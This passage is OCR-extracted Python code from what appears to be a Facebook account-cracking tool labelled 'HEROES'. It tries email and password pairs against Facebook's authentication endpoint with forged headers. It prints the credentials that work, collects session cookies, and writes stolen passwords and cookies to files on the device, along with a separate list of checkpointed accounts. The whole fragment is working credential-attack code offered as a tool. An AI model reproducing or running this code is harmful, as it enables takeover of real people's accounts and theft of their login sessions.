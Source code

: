                                 'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers={
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':heros_UA(),
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [HEROES-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        open('/sdcard/HEROES-COKIE.txt','a').write(str(uid)+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/HEROES-rnd-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        open('/sdcard/HEROES-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
                        